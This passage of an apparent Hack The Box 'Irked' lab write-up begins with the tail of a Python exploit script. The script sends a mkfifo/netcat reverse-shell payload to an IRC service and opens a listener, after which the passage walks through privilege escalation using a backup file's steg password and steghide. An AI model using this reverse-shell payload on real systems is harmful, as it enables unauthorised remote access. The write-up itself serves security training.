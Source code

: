 ```python
    print(f"[-] Failed to connect to {rhost}:{rport}")
    sys.exit(1)
s.recv(100)
print("[*] Sending payload")
s.send(f"AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport}>/tmp/f\n".encode())
s.close()
print("[+] Payload sent. Closing socket.")

print("[*] Opening listener. Callback should come within a minute")
try:
    ncsh = subprocess.Popen(f"nc -lvnp {lhost} {lport}", shell=True)
    ncsh.poll()
    ncsh.wait()
except:
    print("\n[!] Exiting shell")
```

If the script cannot spawn the shell, create a netcat listener to catch it.

# Privesc

---

## ircd → djmardov

---

In order to get the flag, I need to privesc to djmardov, there are interesting files in his home:

```bash
ircd@irked:/home/djmardov/Documents$ cat user.txt
cat: user.txt: Permission denied
ircd@irked:/home/djmardov/Documents$ ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Either this is the password or the password is UPDOWNLRBASS. I tried the combinations, but that did not worked. The words super elite steg must have something to do with the image I found on the webpage. I try the password there:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ steghide extract -sf irked.jpg
Enter passphrase: 
wrote extracted data to "pass.txt".

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/irked]
└─$ cat pass.txt
Kab6h+m+bbp2J:HG
```
